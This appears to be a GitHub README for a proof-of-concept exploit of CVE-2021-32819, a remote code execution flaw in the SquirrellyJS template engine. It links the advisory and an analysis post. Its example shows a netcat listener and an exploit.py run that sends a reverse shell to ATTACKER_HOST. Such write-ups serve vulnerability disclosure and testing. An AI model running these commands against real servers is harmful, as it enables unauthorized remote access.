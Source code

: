 # CVE-2021-32819
CVE-2021-32819 : SquirrellyJS mixes pure template data with engine configuration options through the Express render API. By overwriting internal configuration options, remote code execution may be triggered in downstream applications.

### Source
https://securitylab.github.com/advisories/GHSL-2021-023-squirrelly/
### Analysis
https://blog.diefunction.io/vulnerabilities/ghsl-2021-023
### squirrelly
v8.0.0 >= v8.0.8 Remote Code Execution
### Environment
Ubuntu 20.04.1

### Example
```
nc -lvp 443

python3 exploit.py http://example.com/  ATTACKER_HOST 443
```

![Proof of concept](https://raw.githubusercontent.com/Abady0x/CVE-2021-32819/main/img/POC.png)
